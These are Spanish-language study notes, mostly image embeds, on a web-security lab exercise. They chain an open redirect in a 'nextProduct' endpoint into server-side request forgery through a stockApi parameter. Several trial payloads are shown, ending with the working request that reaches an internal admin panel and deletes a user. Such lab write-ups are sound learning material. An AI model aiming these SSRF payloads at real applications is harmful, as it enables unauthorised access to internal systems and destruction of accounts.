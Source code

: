 ![[Pasted image 20230912140507.png]]

![[Pasted image 20230912140648.png]]

![[Pasted image 20230912140711.png]]

![[Pasted image 20230912140745.png]]

![[Pasted image 20230912140823.png]]

![[Pasted image 20230912140842.png]]

![[Pasted image 20230912140930.png]]

presionando Ctrl+U para hacer un encode en el repeater:

![[Pasted image 20230912141022.png]]

stockApi=/product/stock/check%3fproductId%3d1%26storeId%3d2

pruebas para armar el payload:

stockApi=127.0.0.1/admin
stockApi=192.168.0.12:8080/admin

![[Pasted image 20230912141219.png]]

tratando de encodear toda la cadena:
stockApi%3d192.168.0.12%3a8080/admin  -> aca ni siquiera reconoce la variable stockApi

stockApi=192.168.0.12%3a8080/admin

![[Pasted image 20230912141434.png]]

uniendo ambas cadenas:


stockApi=/product/stock/check?productId=1&storeId=2&192.168.0.12%3a8080/admin

stockApi=/product/stock/check%3fproductId%3d1%26storeId%3d2%26192.168.0.12%253a8080/admin

![[Pasted image 20230912141628.png]]

el payload es valido pero no tengo la redireccion, tambien probe usando este payload:

stockApi=/product/stock/check?productId=1&storeId=192.168.0.12:8080/admin
stockApi=/product/stock/check?productId=1%26storeId%3d192.168.0.12%3a8080/admin

pobe quitar storeId y ahi si me genera un error 400 (falta un parametro)

En el lab hay un boton que dice "Next Product", haciendo click en éste, en esencia me lleva a otro producto, o sea una redireccion:

![[Pasted image 20230912143306.png]]

![[Pasted image 20230912143251.png]]

buscando el endpoint en la lista del burp:

![[Pasted image 20230912143413.png]]

llama la atencion que es un 302 asi que este tiene que ser:

![[Pasted image 20230912143505.png]]

/product/nextProduct?currentProductId=1&path=/product?productId=2

notese que es un request GET, probando el payload:

/product/nextProduct?currentProductId=1&path=192.168.0.12:8080/admin

![[Pasted image 20230912143638.png]]

si presiono Follow Redirection: 
![[Pasted image 20230912143720.png]]

probando limpiar el payload:

![[Pasted image 20230912143818.png]]

Aca la clave es jugar con el payload, no desesperarse y hacer varias pruebas, leyendo la respuesta mi error fue que en nextProduct debía poner la redireccion, no en el PATH, de manera que mi payload fue así:

GET /product/nextProduct?currentProductId=1&path=192.168.0.12:8080/admin

cuando lo correcto es:

GET /product/nextProduct?192.168.0.12:8080/admin

![[Pasted image 20230912144154.png]]

la misma aplicacion te guía con los output, agregando:

GET /product/nextProduct?path=192.168.0.12:8080/admin

![[Pasted image 20230912144304.png]]

pero al darle Follow Redirection me vuelve a generar un error:

![[Pasted image 20230912144601.png]]

pues bien, tuve que ver el video de Michael Sommer, y el request GET me sirvio para armar la linea, despues me regreso al metodo POST y uso el payload:

Este es el payload que funciona pues obtuve un 302:

GET /product/nextProduct?path=192.168.0.12:8080/admin

ahora trato de pegarlo en el Repeater con el endpoint POST:

![[Pasted image 20230912145249.png]]

recordemos que debo especificar el protocolo de acceso al host, lo cual tiene logica, modificando:

/product/nextProduct?path=http://192.168.0.12:8080/admin

![[Pasted image 20230912145345.png]]

para resolver el lab:

stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos

![[Pasted image 20230912145419.png]]

